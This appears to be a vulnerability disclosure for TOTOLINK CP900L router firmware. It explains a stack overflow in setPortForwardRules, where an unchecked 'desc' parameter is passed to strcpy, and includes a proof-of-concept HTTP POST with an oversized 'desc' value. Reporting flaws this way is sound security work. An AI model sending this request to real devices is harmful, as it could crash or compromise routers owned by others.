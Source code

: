 # TOTOLINK CP900L V4.1.5cu.798_B20221228 stack overflow

### Product Information

Product: TOTOLINK CP900L Firmware Version: V4.1.5cu.798_B20221228  Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### Analysis

In the function setPortForwardRules, attackers can post the parameter desc without checking its' length, which can lead to buffer overflows in the following strcpy function.

![image-20240525133036413](./image-20240525133036413.png)

![image-20240525133053163](./image-20240525133053163.png)

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 108
Origin: http://192.168.0.1
Connection: close


{
    "topicurl": "setting/setPortForwardRules",
    "addEffect": "0",
    "desc": "a"*0x100
}

```



